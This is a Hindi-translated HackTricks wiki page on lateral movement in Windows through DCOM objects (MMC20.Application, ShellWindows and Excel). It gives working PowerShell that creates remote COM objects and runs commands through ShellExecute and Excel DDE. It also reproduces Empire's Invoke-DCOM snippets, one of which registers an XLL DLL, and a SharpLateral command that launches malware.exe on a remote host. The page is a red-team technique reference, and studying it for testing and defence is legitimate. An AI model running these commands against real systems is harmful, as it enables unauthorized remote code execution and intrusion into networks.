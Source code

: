 # DCOM Exec

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MMC20.Application

**इस तकनीक के बारे में अधिक जानकारी के लिए [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) से मूल पोस्ट देखें।**

Distributed Component Object Model (DCOM) ऑब्जेक्ट्स नेटवर्क-आधारित इंटरैक्शन के लिए एक दिलचस्प क्षमता प्रस्तुत करते हैं। Microsoft DCOM और Component Object Model (COM) के लिए व्यापक दस्तावेज़ प्रदान करता है, जो [यहां DCOM के लिए](https://msdn.microsoft.com/en-us/library/cc226801.aspx) और [यहां COM के लिए](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx) उपलब्ध है। DCOM अनुप्रयोगों की एक सूची PowerShell कमांड का उपयोग करके प्राप्त की जा सकती है:
```bash
Get-CimInstance Win32_DCOMApplication
```
The COM object, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), MMC स्नैप-इन संचालन के स्क्रिप्टिंग की अनुमति देता है। विशेष रूप से, इस ऑब्जेक्ट में `Document.ActiveView` के तहत `ExecuteShellCommand` विधि शामिल है। इस विधि के बारे में अधिक जानकारी [यहाँ](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx) मिल सकती है। इसे चलाते हुए जांचें:

यह सुविधा एक नेटवर्क के माध्यम से DCOM एप्लिकेशन के माध्यम से कमांड निष्पादित करने की सुविधा प्रदान करती है। एक व्यवस्थापक के रूप में दूरस्थ रूप से DCOM के साथ बातचीत करने के लिए, PowerShell का उपयोग निम्नलिखित तरीके से किया जा सकता है:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
यह कमांड DCOM एप्लिकेशन से कनेक्ट करता है और COM ऑब्जेक्ट का एक उदाहरण लौटाता है। फिर ExecuteShellCommand मेथड को दूरस्थ होस्ट पर एक प्रक्रिया निष्पादित करने के लिए बुलाया जा सकता है। प्रक्रिया में निम्नलिखित चरण शामिल हैं:

Check methods:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
RCE प्राप्त करें:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**इस तकनीक के बारे में अधिक जानकारी के लिए मूल पोस्ट देखें [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

**MMC20.Application** ऑब्जेक्ट को स्पष्ट "LaunchPermissions" की कमी के लिए पहचाना गया, जो व्यवस्थापकों को पहुंच की अनुमति देने वाले अनुमतियों पर डिफ़ॉल्ट होता है। अधिक विवरण के लिए, एक थ्रेड [यहां](https://twitter.com/tiraniddo/status/817532039771525120) खोजा जा सकता है, और बिना स्पष्ट Launch Permission के ऑब्जेक्ट को फ़िल्टर करने के लिए [@tiraniddo](https://twitter.com/tiraniddo) के OleView .NET का उपयोग करने की सिफारिश की गई है।

दो विशेष ऑब्जेक्ट, `ShellBrowserWindow` और `ShellWindows`, को स्पष्ट Launch Permissions की कमी के कारण उजागर किया गया। `HKCR:\AppID\{guid}` के तहत `LaunchPermission` रजिस्ट्री प्रविष्टि की अनुपस्थिति स्पष्ट अनुमतियों की कमी को दर्शाती है।

###  ShellWindows
`ShellWindows` के लिए, जो एक ProgID की कमी है, .NET विधियाँ `Type.GetTypeFromCLSID` और `Activator.CreateInstance` इसके AppID का उपयोग करके ऑब्जेक्ट इंस्टेंटिएशन को सुविधाजनक बनाती हैं। यह प्रक्रिया `ShellWindows` के लिए CLSID प्राप्त करने के लिए OleView .NET का उपयोग करती है। एक बार इंस्टेंटिएट होने के बाद, `WindowsShell.Item` विधि के माध्यम से इंटरैक्शन संभव है, जिससे `Document.Application.ShellExecute` जैसी विधियों का आह्वान होता है।

ऑब्जेक्ट को इंस्टेंटिएट करने और दूरस्थ रूप से कमांड निष्पादित करने के लिए उदाहरण PowerShell कमांड प्रदान किए गए थे:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

Lateral movement को DCOM Excel objects का उपयोग करके प्राप्त किया जा सकता है। विस्तृत जानकारी के लिए, DCOM के माध्यम से lateral movement के लिए Excel DDE का उपयोग करने पर चर्चा पढ़ना उचित है [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) पर।

Empire प्रोजेक्ट एक PowerShell स्क्रिप्ट प्रदान करता है, जो DCOM objects को हेरफेर करके दूरस्थ कोड निष्पादन (RCE) के लिए Excel के उपयोग को प्रदर्शित करता है। नीचे [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) पर उपलब्ध स्क्रिप्ट से स्निप्पेट्स हैं, जो RCE के लिए Excel का दुरुपयोग करने के विभिन्न तरीकों को दर्शाते हैं:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Lateral Movement के लिए ऑटोमेशन टूल्स

इन तकनीकों को स्वचालित करने के लिए दो टूल्स को उजागर किया गया है:

- **Invoke-DCOM.ps1**: एक PowerShell स्क्रिप्ट जो Empire प्रोजेक्ट द्वारा प्रदान की गई है, जो दूरस्थ मशीनों पर कोड निष्पादित करने के विभिन्न तरीकों को सरल बनाती है। यह स्क्रिप्ट Empire GitHub रिपॉजिटरी पर उपलब्ध है।

- **SharpLateral**: एक टूल जो दूरस्थ रूप से कोड निष्पादित करने के लिए डिज़ाइन किया गया है, जिसे इस कमांड के साथ उपयोग किया जा सकता है:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Automatic Tools

* Powershell स्क्रिप्ट [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) अन्य मशीनों में कोड निष्पादित करने के लिए सभी टिप्पणी किए गए तरीकों को आसानी से लागू करने की अनुमति देती है।
* आप [**SharpLateral**](https://github.com/mertdas/SharpLateral) का भी उपयोग कर सकते हैं:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## References

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करें।

</details>
{% endhint %}
